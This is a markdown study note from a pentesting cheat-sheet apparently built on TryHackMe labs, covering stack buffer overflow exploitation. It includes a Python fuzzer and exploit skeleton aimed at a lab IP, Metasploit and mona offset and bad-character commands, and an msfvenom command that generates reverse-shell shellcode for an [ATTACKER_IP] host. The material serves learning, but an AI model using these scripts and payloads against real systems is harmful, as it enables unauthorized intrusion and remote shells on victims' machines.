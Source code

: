 ```yaml
---
title: 3 - Buffer Overflow
summary: Gaining Access step – a note for Buffer Overflows.
description: Gaining Access step – a note for Buffer Overflows.
---
```


# Memory Architecture

---

## Memory

![killchain-buffer_overflow-architecture-memory.png](../attachments/killchain-buffer_overflow-architecture-memory.png)
Source: TCM Security

## Stack

![killchain-buffer_overflow-architecture-stack.png](../attachments/killchain-buffer_overflow-architecture-stack.png)
Source: TCM Security

# Basis

---

 > 
 > **<font color=red>python -c "print('A' \*</font> 40 <font color=red>+ '</font>\\xef\xbe\xad\xde<font color=red>')"</font>**</br>
 > Print payload with overflow and value to inject.

 > 
 > **<font color=red>cat</font> myPayloadFile <font color=red>- |</font> vulnerableBinary**</br>
 > Use `-` to hang after succefull buffer overflow. 

# THM Method

---

## 1 - Fuzzing

 > 
 > **<font color=red>1_fuzzer.py</font>**</br>

````py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.99.64"
port = 1337

timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

````

## 2 - Controlling EIP (Finding Offset)

### Method 1: Manual

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l</font> 3000**</br>
 > Create chars to find EIP (maki it 400 bytes longer than the string that crashed the server).

 > 
 > Take that string of chars and put it in "payload" variable in 2_exploit.py.

 > 
 > Re-run the program in Immunity.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

````py
import socket

ip = "10.10.99.64"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3 ..." # HERE !
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````

 > 
 > Look at EIP Value (Immunity > Registers (in CPU Window))
 > ![exploit-buffer_overflow-eip_manual.png](../attachments/exploit-buffer_overflow-eip_manual.png)

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l</font> 3000 <font color=red>-q</font> 386F4337**</br>
 > Return the exact offset.

 > 
 > Take that offset and put it in "offset" variable in 2_exploit.py.

 > 
 > Set "payload" variable to "" (empty).

 > 
 > Set "retn" variable to "BBBB" (EIP overwrite).

### Method 2: Mona

Immunity : !mona findmsp -distance 2400

→ EIP contains normal pattern : 0x6f43396e (offset 1978)

![exploit-buffer_overflow-eip_mona.png](../attachments/exploit-buffer_overflow-eip_mona.png)

## 3 - Finding Bad characters

### Method 1: Manual

 > 
 > **<font color=red>!mona bytearray -b "</font>\\x00<font color=red>"</font>**</br>
 > In Immunity

 > 
 > <font color=red>
**3_gen_badchars.py**</font></br>

````py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
````

 > 
 > Take output form `3_gen_badchars.py` and put il in "payload" variable in `2_exploit.py`.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

 > 
 > Follow EIP in Immunity.
 > ![exploit-buffer_overflow-bad_chars_manual_1.png](../attachments/exploit-buffer_overflow-bad_chars_manual_1.png)

 > 
 > Check if all chars are here in right order.
 > ![exploit-buffer_overflow-bad_chars_manual_2.png](../attachments/exploit-buffer_overflow-bad_chars_manual_2.png)

 > 
 > Notes : 
 > 
 > * Bad chars will not necessarily be B0.
 > * When there are consecutive bad chars, the only bad is the first one (but we can remove them by precaution).

### Method 2: Mona

 > 
 > **<font color=red>!mona config -set workingfolder</font> c:\mona**</br>
 > Set where mona will save data.

 > 
 > **<font color=red>!mona bytearray -cpb</font> “\x00”**</br>
 > Generate Bytearray

 > 
 > **<font color=red>!mona compare -f</font> bytearray.bin <font color=red>-a</font> ESP-ADDR**</br>
 > Find bad chars.

![exploit-buffer_overflow-bad_chars_mona.png](../attachments/exploit-buffer_overflow-bad_chars_mona.png)

Do it again adding bad chars :

 > 
 > **<font color=red>!mona bytearray -cpb</font> "\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Generate Byte array.

## 4 - Find Jump Point

### Method 1: Manual

 > 
 > Set "retn" variable to the jump point (backward because of little endian).
 > Ex :  0x01020304 -> "\x04\x03\x02\x01

### Method 2: Mona

 > 
 > **<font color=red>!mona jmp -r esp -cpb </font>"\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Return all "jmp esp" (specify bad chars after -cpb).

![exploit-buffer_overflow-jump_point_mona.png](../attachments/exploit-buffer_overflow-jump_point_mona.png)

## 5 - Generate Shellcode (MSFVNOM)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
